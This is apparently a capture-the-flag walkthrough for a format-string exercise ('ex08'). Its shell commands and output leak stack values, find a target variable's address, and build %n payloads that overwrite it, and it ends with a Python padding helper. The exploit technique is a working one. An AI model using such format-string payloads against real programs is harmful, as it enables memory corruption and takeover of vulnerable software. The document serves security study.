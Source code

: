 This is similar to format 07 except that we now have to precisely control what gets written to target.

Find the Offset of Our Input String:

```sh
user@hole-in-bin:~/hole-in-bin/ex08$ python -c "print 'AAAA' + '%x.' * 12" | ./bin
AAAAb76f7500.bff92c54.b76d7000.0.0.bff92c18.804849d.bff92a10.200.b76d7c20.b76f3328.41414141.
target is 00000000 :(

```

We see the AAAA as 41414141

Find the memory address of the target:

```sh
user@hole-in-bin:~/hole-in-bin/ex08$ objdump -t bin | grep target
080496f4 g     O .bss   00000004              target
```

Address is \xf4\x96\x04\x08 in little endian

Create a format string to write to target.:

```sh
user@hole-in-bin:~/hole-in-bin/ex08$ python -c "print '\xf4\x96\x04\x08' + '%x.' * 11 + '%n'" | ./bin
b7724500.bfb15d44.b7704000.0.0.bfb15d08.804849d.bfb15b00.200.b7704c20.b7720328.
target is 00000053 :(
```

Extend it to write all 4 bytes to target

```sh
user@hole-in-bin:~/hole-in-bin/ex08$ python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08' + '%x.'*11 + '%n%n%n%n'" | ./bin
b7723500.bfe69074.b7703000.0.0.bfe69038.804849d.bfe68e30.200.b7703c20.b771f328.
target is 5f5f5f5f :(
```

Value 5f is important later.

We use a combination of padding bytes and %n format specifiers to write specific values to the target variable's memory address. The %n specifier writes the number of bytes printed so far to the location pointed to by the corresponding argument.

Before we can place a %nu before each %n, we need to pad our input string since each %nu also pops the stack. We do this by adding \x01\x01\x01\x01 before each address in our input string.

```sh
python -c "print '\x01\x01\x01\x01\xf4\x96\x04\x08\x01\x01\x01\x01\xf5\x96\x04\x08\x01\x01\x01\x01\xf6\x96\x04\x08\x01\x01\x01\x01\xf7\x96\x04\x08' + '%x.'*11 + '%u%n%u%n%u%n%u%n'" | ./bin
```

To calculate the correct values for each byte we need a helper function:

```py
def calculate(to_write, written):
    to_write += 0x100
    written %= 0x100
    padding = (to_write - written) % 0x100
    if padding < 10:
        padding += 0x100
    return padding

calculate(0x44, 0x6F)  # Example usage
```
